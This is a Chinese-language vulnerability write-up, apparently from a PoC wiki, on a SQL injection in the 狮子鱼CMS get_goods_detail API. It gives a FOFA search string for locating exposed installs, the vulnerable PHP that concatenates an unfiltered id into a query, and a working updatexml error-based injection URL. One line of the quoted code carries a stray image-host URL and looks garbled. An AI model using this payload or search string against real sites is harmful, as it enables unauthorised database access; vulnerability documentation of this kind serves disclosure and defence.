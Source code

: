 # 狮子鱼CMS ApigoodsController.class.php SQL注入漏洞

## 漏洞描述

狮子鱼CMS ApiController.class.php 参数过滤存在不严谨，导致SQL注入漏洞

## 漏洞影响

> [!NOTE]
>
> 狮子鱼CMS

## FOFA

> [!NOTE]
>
> "/seller.php?s=/Public/login"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/szy-1.png)

存在漏洞的文件为 **ApigoodsController.class.php **, 关键位置为

```php
 public function get_goods_detail() {
        $id = I('get.id');
        $pin_id = I('get.pin_id', 0);
		
		$token = I('get.token');
		
		$weprogram_token = M('weprogram_token')->field('member_id')->where( array('token' =>$token) )->find();
		$member_id = $weprogram_token['member_id'];
		
		
		 
		
        $need_data = array();
        $sql = "select g.*,gd.description,gd.is_untake_level,level_discount,gd.video_src,gd.video_size_width,gd.vedio_size_height,gd.is_video,
            gd.summary,gd.share_title,gd.activity_summary,gd.tag from " . C('DB_PREFIX') . "goods g," . C('DB_PREFIX') . "goods_description gd where g.goods_id=gd.goods_id and g.goods_id=" . $id;
        $goods = M()->query($sql);
        $pin_model = D('Home/Pin');
        $goods_model = D('Home/Goods');
        $qian = array(
            "/Uploads/image"
        );
		$c_site_url = str_replace('/dan','',C('SITE_URL'));
        $hou = array(
            $c_site_url . "/Uploads/image"
        );
		$goods[0]['video_src'] = C('SITE_URL')."Uploads/http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/".$goods[0]['video_src'];
		
        $goods[0]['description'] = str_replace($qian, $hou, $goods[0]['description']);
        $goods[0]['description'] = htmlspecialchars_decode($goods[0]['description']);
        $qian = array(
            "\r\n"
        );
```

![](http://wikioss.peiqi.tech/vuln/szy-6.png)

漏洞测试为

```
https://xxx.xxx.xx.xxx/index.php?s=apigoods/get_goods_detail&id=1%20and%20updatexml(1,concat(0x7e,md5(1),0x7e),1)
```

![](http://wikioss.peiqi.tech/vuln/szy-7.png)